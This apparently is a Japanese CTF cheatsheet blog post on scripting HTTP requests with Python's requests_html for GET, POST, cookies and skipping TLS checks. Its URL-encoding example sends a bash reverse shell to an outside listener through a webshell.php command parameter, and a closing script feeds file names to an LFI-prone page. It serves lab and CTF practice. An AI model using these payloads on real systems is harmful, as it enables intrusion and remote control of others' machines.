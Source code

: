 ```yaml
---
layout: post
title: HTTP通信の自動化(python/requests_html)
published : true
tags: CTF Common cheatsheet python requests_html
---
```

## 基本
```python
from requests_html import HTMLSession

s = HTMLSession()
```

## GET
```python
url = 'http://10.10.11.116/'

r = s.get(url)

print(r.text) # htmlを表示
print(r.html.text) # inner textのみ表示
```

## POST
```python
url = 'http://10.10.11.116/'

data = {"username":"admin","password":"adm123"}
r = s.post(url, data=data)
```

## POST(JSON)
```python
url = 'http://10.10.11.116/'

data = {"username":"admin","password":"adm123"}
r = s.post(url, json=data)
```

## Cookie
### 取得

### 送信
```python
url = "http://10.10.11.139:5000/"

session.cookies.set('auth', 'some_cookie')

r = session.get(url)
```

## TLS証明書の検証をしない
verify=False
```python
url = 'https://store.nunchucks.htb/api/submit'
r = session.post(url, verify=False, json=data)
```

## DataのURL encode
```python
import urllib.parse

cmd = 'bash -c "bash -i >& /dev/tcp/10.10.14.14/7777 0>&1"'
cmd = urllib.parse.quote(cmd)
url = f'http://10.10.11.116/webshell.php?cmd={cmd}'

r = s.get(url)
```

## 例
LFI用。コマンドライン引数にファイル名を入力する。
```python
import sys
from requests_html import HTMLSession

s = HTMLSession()

url = f'http://10.10.10.194/news.php?file={sys.argv[1]}'
print(f'url: {url}')

r = s.get(url)

print(r.text) # htmlを表示
print(r.html.text) # inner textのみ表示
```